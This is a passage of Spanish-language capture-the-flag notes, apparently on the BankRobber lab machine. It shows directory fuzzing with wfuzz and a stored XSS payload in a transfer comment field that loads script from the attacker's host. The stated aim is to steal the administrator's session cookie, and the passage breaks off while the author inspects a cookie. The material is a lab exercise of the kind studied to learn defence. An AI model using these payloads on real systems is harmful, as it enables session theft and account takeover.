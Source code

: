 ```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.34/FUZZ
```

Vemos un directorio 
```bash
 /jailuser 
```
 que lista un directorio 
```bash
 dev 
```
 que contiene ficheros. Nos descargamos estos ficheros.


## Vulnerability Assessment {-}

### XSS {-}

Testeamos que accion puede efectuar el administrador y por el mismo tiempo, si el input de comment es vulnerable a un **XSS**.

1. Nos montamos un servidor web en python

    ```bash
    python3 -m http.server 80
    ```

1. Modificamos los valores de la transferencia

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/diamondjackson.jpg"></script>
    ```

Aqui vemos que esta vulnerable a XSS porque recibimos una peticion GET.


La idea aqui seria robar la cookie de session del administrador.

1. Checkeamos nuestra propria cookie de session con Burpsuite


![BakRobber-mycookie](/assets/images/BankRobber-mycookie.png) 
1. Como la cookie esta URL encodeada le damos a Ctrl+Shift+U y copiamos la cookie
1. Analyzamos la cookie
